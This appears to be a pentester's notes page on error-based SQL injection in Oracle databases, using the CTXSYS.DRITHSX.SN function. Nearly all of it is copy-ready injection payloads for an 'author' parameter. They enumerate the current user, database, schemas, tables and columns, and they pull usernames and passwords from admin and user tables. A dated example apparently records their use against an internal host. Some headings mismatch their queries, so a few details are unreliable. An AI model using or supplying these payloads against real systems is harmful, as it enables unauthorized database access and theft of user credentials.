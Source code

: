 # Oracle

## Error base oracle SQLi

> [https://dl.packetstormsecurity.net/papers/database/Hacking\_Oracle\_From\_Web\_2.pdf](https://dl.packetstormsecurity.net/papers/database/Hacking_Oracle_From_Web_2.pdf)  
> [http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet)  
> [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md\#oracle-sql-injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md#oracle-sql-injection)

### CTXSYS.DRITHSX.SN

```text
ctxsys.drithsx.sn(1,(sql query to execute))
```

#### Example

```text
author=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--
```

> Something went wrong with the search: java.sql.SQLException: ORA-20000: Oracle Text error: DRG-11701: thesaurus **WEB\_APP** does not exist ORA-06512: at "CTXSYS.DRUE", line 183 ORA-06512: at "CTXSYS.DRITHSX", line 555 ORA-06512: at line 1

## Limit to one result

### Get all databases

![](../../.gitbook/assets/image%20%2816%29.png)

```text
SELECT OWNER FROM (SELECT OWNER,ROWNUM AS LIMIT FROM (SELECT DISTINCT(OWNER) FROM SYS.ALL_TABLES) ORDER BY 1 ASC) WHERE LIMIT=1
```

### Get all table within the WEB\_APP database

![](../../.gitbook/assets/image%20%2814%29.png)

```text
SELECT table_name FROM (SELECT table_name,ROWNUM AS LIMIT FROM (SELECT owner, table_name FROM all_ta­bles WHERE owner=WEB_APP) ORDER BY 1 ASC) WHERE LIMIT=1
```

### Get all columns within the WEB\_APP database and WEB\_ADMINS table

![](../../.gitbook/assets/image%20%2815%29.png)

```text
author=1' AND 2092=CTXSYS.DRITHSX.SN(2092,(SELECT column_name FROM (SELECT column_name,ROWNUM AS LIMIT FROM (SELECT column_name FROM all_tab_columns WHERE owner='WEB_APP' and table_name='WEB_ADMINS') ORDER BY 1 ASC) WHERE LIMIT=1))-- 
```

### Select from the WEB\_APP.WEB\_ADMINS table

![](../../.gitbook/assets/image%20%2813%29.png)

```text
author=1' AND 2092=CTXSYS.DRITHSX.SN(2092,(SELECT PASSWORD FROM (SELECT PASSWORD,ROWNUM AS LIMIT FROM (SELECT PASSWORD FROM WEB_APP.WEB_ADMINS) ORDER BY 1 ASC) WHERE LIMIT=1))-- 
```

### Example

#### 15-05-2021 - RFC1918

#### Oracle Error SQLi - Error Messages Enabled

**Getting current user**

author=1' and 1=ctxsys.drithsx.sn\(1,\(select user from dual\)\)--

**Getting current DB**

author=1' and 1=ctxsys.drithsx.sn\(1,\(SELECT global\_name FROM global\_name\)\)--

**Listing DB's**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT OWNER FROM \(SELECT OWNER,ROWNUM AS LIMIT FROM \(SELECT DISTINCT\(OWNER\) FROM SYS.ALL\_TABLES\) ORDER BY 1 ASC\) WHERE LIMIT=7\)\)--

**Listing Tables from WEB\_APP DB**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT table\_name FROM \(SELECT table\_name,ROWNUM AS LIMIT FROM \(SELECT owner, table\_name FROM all\_tables WHERE owner='WEB\_APP'\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

**Listing Columns from WEB\_APP DB and WEB\_ADMINS table**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT column\_name FROM \(SELECT column\_name,ROWNUM AS LIMIT FROM \(SELECT column\_name FROM all\_tab\_columns WHERE owner='WEB\_APP' and table\_name='WEB\_CONTENT'\) ORDER BY 1 ASC\) WHERE LIMIT=2\)\)--

**Select password from WEB\_APP.WEB\_ADMINS**

author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT PASSWORD FROM \(SELECT PASSWORD,ROWNUM AS LIMIT FROM \(SELECT PASSWORD FROM WEB\_APP.WEB\_USERS\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

**Select Username and password from WEB\_USERS**

Username: author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT USER\_NAME FROM \(SELECT USER\_NAME,ROWNUM AS LIMIT FROM \(SELECT USER\_NAME FROM WEB\_APP.WEB\_USERS\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

Password: author=1' AND 2092=CTXSYS.DRITHSX.SN\(2092,\(SELECT PASSWORD FROM \(SELECT PASSWORD,ROWNUM AS LIMIT FROM \(SELECT PASSWORD FROM WEB\_APP.WEB\_USERS\) ORDER BY 1 ASC\) WHERE LIMIT=1\)\)--

